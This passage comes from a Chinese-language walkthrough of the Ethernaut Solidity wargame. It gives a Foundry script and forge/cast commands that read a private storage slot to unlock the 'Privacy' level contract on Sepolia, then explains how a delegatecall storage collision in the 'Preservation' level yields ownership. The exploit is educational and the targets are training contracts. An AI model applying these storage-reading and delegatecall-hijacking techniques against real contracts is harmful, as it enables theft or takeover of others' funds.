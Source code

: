 还需要一个脚本去部署 `Attacker` 合约并发起攻击，其中读取合约存储槽 `5` 的值

```
address levelAddr = 0x477C9b8Afa15DcF950fbAeEd391170C0eb0534C3;

Attacker attacker = new Attacker(levelAddr);

uint256 levelDataSlotStartIdx = 3;

bytes32 dataInPos2 = vm.load(
    levelAddr,
    bytes32(levelDataSlotStartIdx + 2)
);

bytes16 _key = bytes16(dataInPos2);

attacker.attack(_key);
```

完整代码见：[这里](ethernaut/script/level12.s.sol)

Foundry 脚本：

调用脚本部署并发动攻击：
```
forge script script/level12.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

查询是否已解锁
```
cast call 0x477C9b8Afa15DcF950fbAeEd391170C0eb0534C3 \
"locked()(bool)" \
--rpc-url sepolia
```


链上记录：
- [level(`Privacy`)](https://sepolia.etherscan.io/address/0x477C9b8Afa15DcF950fbAeEd391170C0eb0534C3)
- [Attacker](https://sepolia.etherscan.io/tx/0x160FeC247F3578DF771333FB5108352434AE3fAE)
- [attack 交易](https://sepolia.etherscan.io/tx/0xd97d0d2933a94cc266086631dd13d9932a896f928d75616c86e5dbde9b25ce28)



## lelve 15

[The Ethernaut level 15](https://ethernaut.openzeppelin.com/level/15)

这一关的目的是解锁获取 Preservation 合约的所有权。

仔细阅读这个合约，发现 `Preservation` 使用了 `delegatecall`。这就很容易发生存储冲突的问题。果不其然，`LibraryContract` 的 `setTime` 函数修改 `storedTime` 变量。该变量在 `LibraryContract` 合约是在 `slot0`。但是由于是 `delegatecall`，真正被修改的是 调用者，即 Preservation 合约的 `slot0`。·

要想成为 owner，可以利用这个漏洞，调用 `setFirstTime` 时 把 `timeZone1Library` 改为攻击者合约。再次调用 `setFirstTime` 时，使用的是攻击者合约的逻辑。可以在攻击者合约部署和 `Preservation` 一样的存储，进而修改 `owner`
